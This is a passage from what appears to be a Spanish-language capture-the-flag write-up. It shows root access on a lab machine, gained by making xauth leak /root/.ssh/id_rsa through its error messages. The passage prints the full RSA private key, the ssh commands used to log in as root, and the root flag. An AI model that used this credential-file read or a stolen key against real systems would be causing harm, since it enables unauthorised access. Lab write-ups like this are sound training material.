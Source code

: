```
/usr/bin/xauth: /root/.ssh/id_rsa:24:  unknown command "i5e21wKBgQDDCQhaWuW5A5xF4N7obHX9HWgdfNLEABfub2Ysu9xLXdW5lhKxfVsZ"
/usr/bin/xauth: /root/.ssh/id_rsa:25:  unknown command "JAavd3wkMRXHLIOQtOiV9z3F2PmbO3h6yR6esFl0tGcnfZYmaiZJN/MLZKpL9WI/"
/usr/bin/xauth: /root/.ssh/id_rsa:26:  unknown command "WuTyDRk99zQu4GNenQiUDmxYCuOuX5kggXaakAN98THXncO38BAAiA=="
/usr/bin/xauth: /root/.ssh/id_rsa:27:  unknown command "-----END"
```

> id\_rsa

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAn1xk2mDBXCTen7d97aY7rEVweRUsVE5Zl4sGPG/yXLAAuodz
xjGuAqvTRhG4omhxiJeDr9taOePsIaUGI3Q/qBqUsbnuM/86vu/ANM6+Olzt80fc
Cv1QVKIdFOweMAiXskvQEV7Fw3qha7fFbf/D8L7BCgXrT70/p9jf4FBroC9pFsRy
6i7CFxcAfji+OeGu5ezhL21uwkTk22vmnBL1hAqn7p2vOmzg57UkP1VAN819oBLS
YUKsCrgjKsdQsFCef9lyFty8Dxpmfwg5t0MmLhA/uhDjvQD9k9cR95+Ru5mV467B
kGad73SHXTHWh9gy0iunAMMveUiEf/qWw2qo8QIDAQABAoIBAARD2sclc8ddjT/F
D2++1TYFHb9/25HeDvPJWr9fV6M3aq2TVnvldHzJ0Hu9ma1vEirPs0yPmFiYSweT
fRiR0epT28rt6PwnRpE5pXFEXz78obmzIKaCpRW+yPx4XU53zGePM+BjIvPaYluZ
rYUGJV5aHJyCEAwwSnXZjhRY0qiU0Tt8VWtwoaltImiNoc9yA7cbWOJcmv4g+YHy
2ce4xb7DAZFf0p7kVLEL2jvaYImUCT12rIo01+q1z9pntW9Y+1JqVIqkGMNITFEf
th3cea9fuhVxiAMIj9xLd8uG6/qUAU8ITjRZwOorJJwqwkaTWdxJq8D6+1UBEGyC
sRXtk8kCgYEA9f2uC7+mDRDWdr2rCaL5hY3XiqNp+PINgYwWm5ELriZORrXV6PwZ
AIuK7vwoNk7+MkGtveK2GwEocIZMipdnTyIBeaGUExBBgIE16IxIQaDw/zi93PVD
BoJ5uK+N5pCVQ67VFNfyDoiZn2EbA8pWXAKJMIJUnRpb4o5306grfiMCgYEApdhZ
He5k7xrccGbu20FnjeMqpfzDVeN8n06ycz4H8L0UMeC22Dy6r/6tFhJWuVmxZpa+
sbPEAqc6q+WjXzFe2YZ4Fhcyj/t7QXEenWrSF6gQJvBN2glWNWkIrvTFjcI5wY/7
ECoDHdzGprLpziq73Ukimk2TmRYur7mYIU0Qy9sCgYEAqnif6eJph7p4dZdhdW8s
7oHqslgm82+DLpjPfgWZi5leO6B92lUCWp9Zq96xW1mIzXk4l1QKkVJPHRPk7VKZ
NHzDevAftspYKl7g5gR5eom3GZfP89VAGr3G7tcyRmtCFcKORkCUrb+6fnoEB69s
A516R1S6oJkIvkuu/M4ZPfMCgYBk4Ca8rP/Z7FW/TOzmkm7hgBa15fwOpxNrdxvW
OxnrVacN+6hb+Px5BojTjw4PKb5dLz4IqtaD4qIuYryvr0EJQOCUV0HbEFVVZfAA
QjROTVydwrcn81vrmtq8SIhNhKFK2kAVAejpZhuy08qhK58fp1eT0bIAgNye6F3f
i5e21wKBgQDDCQhaWuW5A5xF4N7obHX9HWgdfNLEABfub2Ysu9xLXdW5lhKxfVsZ
JAavd3wkMRXHLIOQtOiV9z3F2PmbO3h6yR6esFl0tGcnfZYmaiZJN/MLZKpL9WI/
WuTyDRk99zQu4GNenQiUDmxYCuOuX5kggXaakAN98THXncO38BAAiA==
-----END RSA PRIVATE KEY-----
```

En dicho archivo le añadiremos las `RSA PRIVATE KEY-----` depues de `END` y `BEGIN` para que quede con el formato correcto.

Desde nuestro `kali` vamos a conectarnos con la clave privada de `root` por `SSH` de esta forma.

```shell
chmod 600 id_rsa
ssh -i id_rsa root@<IP>
```

Info:

```
root@load:~# whoami
root
```

Veremos que ha funcionado, por lo que vamos a leer la `flag` de `root`.

> .roooooooooooooooooooooooooooooooooooot.txt

```
85ed9306438d8302cbb4dcbc7c5491b3
```
